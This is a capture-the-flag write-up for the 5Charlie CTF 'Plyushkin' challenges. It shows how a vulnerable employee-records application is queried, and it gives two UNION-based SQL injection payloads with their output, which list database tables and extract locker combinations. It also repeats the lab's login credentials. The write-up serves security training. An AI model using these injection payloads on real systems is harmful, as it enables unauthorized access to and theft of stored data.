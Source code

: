 ```yaml
---
title: "5Charlie CTF - Plyushkin"
date: 2020-06-26 00:00:00 -0500
classes: wide
categories:
  - write-up
tags:
  - ctf
  - write-up
  - linux
  - database
  - hacking
  - sqli
---
```


A write-up of the Plyushkin SQLi challenge from 5Charlie CTF.

## Plyushkin 1

### Plyushkin 1 - Challenge

To access this challenge, ssh to plyushkin@haxor.5charlie.com using the attached private key.

Log in to the application with username: plyushkin and password: Petrushka12.

What fields are available to search? (arrange in alphabetical order in format: afield,bfield,cfield)

NOTE: Ignore these two lines in the program output:
Here's the clue you were supposed to get:
Bobert, put something useful or useless here
They aren't a hint, white cell just didn't feel like recompiling ;)

**Attachments:** `id_plyushkin` - SSH Key

### Plyushkin 1 - Solution

We start out by connecting to the application with the given credentials and giving a blank input.

``` text
Password: Connecting to database...
Creating table in given database...
Created table in given database...
Inserting records...
System ready
Field to search on:
Invalid field, please enter: id, first, last, or age
```

**Flag:** `age,first,id,last`

I noticed a lot of people complaining about it not taking the flag.
I actually failed on my first input too. We just need to read better:

> (arrange in alphabetical order in format: afield,bfield,cfield)

'age' comes before 'first'. Doh!

## Plyushkin 2

### Plyushkin 2 - Challenge

What is the name of the table this program was designed to query?

### Plyushkin 2 - Solution

We can guess based upon the fields in the previous challenge that we're evaluating some sort of employee records database.
We could probably guess-check our way to the answer, but after playing with different inputs, it appears the application is vulnerable to SQL injection.
We are able to pull the names of tables by using an SQL UNION and querying the database tables that store information about the tables in the database.

{% highlight sql %}
6' OR 1=1 UNION SELECT 0,table_schema,table_name,0 FROM information_schema.tables;--
{% endhighlight %}

``` text
Age: 0
ID: 0
First Name: PUBLIC
Last Name: LOCKERS
Age: 0
ID: 0

First Name: PUBLIC
Last Name: PERSONNEL
Age: 0
ID: 0
```

**Flag:** `PERSONNEL`

## Plyushkin 3

### Plyushkin 3 - Challenge

What is Nikolai Gogol's locker combination? (format: ##-##-##)

### Plyushkin 3 - Solution

Looking again at the previous question, we can note that we already have the info on the table we're targering.
At this point we just need to contruct an SQL injection query to pull the combination.

{% highlight sql %}
6' OR 1=1 UNION SELECT 0,combination,combination,0 FROM public.lockers;--
{% endhighlight %}

``` text
ID: 0
First Name: 18-44-9
Last Name: 18-44-9
Age: 0
ID: 6
First Name: Nikolai
Last Name: Gogol
Age: 26
```

**Flag:** `18-44-9`
